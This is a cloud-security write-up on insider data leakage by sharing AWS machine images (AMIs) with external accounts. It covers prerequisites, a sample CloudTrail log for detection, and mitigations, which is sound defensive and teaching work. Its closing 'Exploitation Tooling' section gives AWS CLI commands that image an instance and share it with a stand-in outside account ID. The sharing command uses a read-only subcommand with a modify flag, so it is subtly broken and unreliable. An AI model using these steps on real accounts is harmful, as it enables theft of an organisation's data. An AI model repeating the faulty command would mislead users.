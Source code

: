 # CloudConcerns: Data Leakage through AMI Sharing

## Table of Contents
- [Prerequisites](#prerequisites)
- [Modus Operandi](#modus-operandi)
  - [Scenario Diagram](#scenario-diagram)
  - [Scenario Script](#scenario-script)
- [Scenario Analysis](#scenario-analysis)
  - [Technical Complexity](#technical-complexity)
  - [Data Volume Leaked](#data-volume-leaked)
- [Mitigations](#mitigations)
- [Exploitation Tooling](#exploitation-tooling)

## Table

| Parameter                | Description                                                         |
|--------------------------|---------------------------------------------------------------------|
| Name of the technique    | Data Leakage through AMI Sharing                                    |
| MITRE ATT&CK technique   | [T1537](https://attack.mitre.org/techniques/T1537/)                 |
| Impact type              | Data Leakage                                                        |
| Technical Complexity     | Low                                                                 |
| Data Volume Leaked       | High                                                                |
| Remediation Complexity   | High                                                                |

![MitreAtt&ckTechnique](/img/t1537.png)

## Prerequisites

- The attacker has sufficient permissions to modify AMI permissions.
- The attacker has sufficient permissions to create an EC2 instance and an AMI.

## Modus Operandi

### Scenario Diagram

![CloudConcerns Leakage AMI Sharing Diagram](cloudconcerns-leakage-ami.png)

### Scenario Script

An insider with access to data within an AWS Account has rights to create EC2 images or volumes. They transfer all the data they wish to leak to an external account.

After storing the desired data in the EC2, the insider creates an AMI from the EC2 and shares it with external parties. The AMI can be shared in different ways:
- Publicly: Making it accessible to all AWS accounts.
- With specific account IDs (12 digits): Sharing exclusively with individual accounts.
- With an AWS Organization ID: Making the AMI available to all accounts within the organization.

The potential volume of data leaked is nearly unlimited, making this scenario particularly efficient. Moreover, the AMI can include both technical and business data. Technical data leakage might include secrets/hashes, security configurations like hardening, vulnerabilities, etc. Leakage in the attacker's account allows them to analyze the entire system/application stack without leaving traces, as it's executed in the attacker's account.

## Scenario Analysis

### Technical Complexity

This scenario is relatively simple to execute, provided all prerequisites (i.e., necessary IAM permissions) are met.

### Data Volume Leaked

This technique is suited for a very high volume of data leakage. With one AMI, up to 64 TB can be exfiltrated ([AMI size limits](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ComponentsAMIs.html#storage-for-the-root-device)).

## Detection
### Vulnerability Detection

- Evaluate IAM permissions to detect if sensitive users can modify AMI permissions.
- Ensure that "Block public access for AMIs" is configured in the EC2 "Data protection and security" options.
- Modifications to AMI permissions will generate log records in CloudTrail. You should monitor such events.

### Leakage Detection

If an AMI is shared with another account, the only trace is the sharing configuration. We **cannot know** if an adversary **has effectively accessed or downloaded the AMI**. No log is generated in CloudTrail or any other logging system.

The only log record generated is from the configuration of the sharing, which would look something like this:

```json
{
    "eventVersion": "1.09",
    "userIdentity": {
        "type": "AssumedRole",
        "principalId": "AROAXXXXXX:anonymized",
        "arn": "arn:aws:sts::123456789012:assumed-role/AnonymizedRole/username",
        "accountId": "123456789012",
        "accessKeyId": "ASIAXXXXXX",
        "sessionContext": {
            "sessionIssuer": {
                "type": "Role",
                "principalId": "AROAXXXXXX",
                "arn": "arn:aws:iam::123456789012:role/anonymized-role",
                "accountId": "123456789012",
                "userName": "AnonymizedUserName"
            },
            "attributes": {
                "creationDate": "2024-01-09T07:40:47Z",
                "mfaAuthenticated": "false"
            }
        }
    },
    "eventTime": "2024-01-09T08:25:47Z",
    "eventSource": "ec2.amazonaws.com",
    "eventName": "ModifyImageAttribute",
    "awsRegion": "eu-west-1",
    "sourceIPAddress": "1.2.3.4",
    "userAgent": "AWS Internal",
    "requestParameters": {
        "imageId": "ami-XXXXXXXX",
        "launchPermission": {
            "add": {
                "items": [
                    {
                        "userId": "999999999999"
                    }
                ]
            }
        },
        "attributeType": "launchPermission"
    },
    "responseElements": {
        "requestId": "XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX",
        "_return": true
    },
    "requestID": "XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX",
    "eventID": "XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX",
    "readOnly": false,
    "eventType": "AwsApiCall",
    "managementEvent": true,
    "recipientAccountId": "123456789012",
    "eventCategory": "Management",
    "sessionCredentialFromConsole": "true"
}
```
Notice the `userId` field that identify the AWS Account with which the AMI is shared. Detection scenarios should identify account IDs external to your AWS Organization.

## Mitigations

- Apply least privilege to users to deny them the ability to modify permissions on AMIs.
- Use SCPs on accounts to also protect against most admins. It will deny the ability to share any AMI with external accounts (be aware of operational impacts).
- Encrypt the AMI with a KMS Managed Key. To access the AMI, the attacker would need decryption rights on the KMS Key (adding complexity to the attack). Ensure all AMIs are encrypted (as enforceable rules are only detective, not protective).
- Configure "Block public access for AMIs" in the EC2 "Data protection and security" options and prevent any changes to this configuration. Deny all the following permissions: `ec2:EnableImageBlockPublicAccess`, `ec2:DisableImageBlockPublicAccess` (mandatory permission), `ec2:GetImageBlockPublicAccessState` (see [Block Public Access to AMIs](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/sharingamis-intro.html#block-public-access-to-amis)).


## Exploitation Tooling

To create an AMI from an existing EC2 (replace i-xxxxxxxxxxxx with your instance ID):
```bash
aws ec2 create-image --instance-id i-xxxxxxxxxxxx --name "MyAMIName" --description "My AMI description" --no-reboot
```


Using the AWS CLI on Linux, to share an AMI (e.g., ami-777777777777) with the account 999999999999:

```bash
aws ec2 describe-image-attribute --image-id ami-777777777777 --launch-permission "Add=[{UserId=999999999999}]"

```







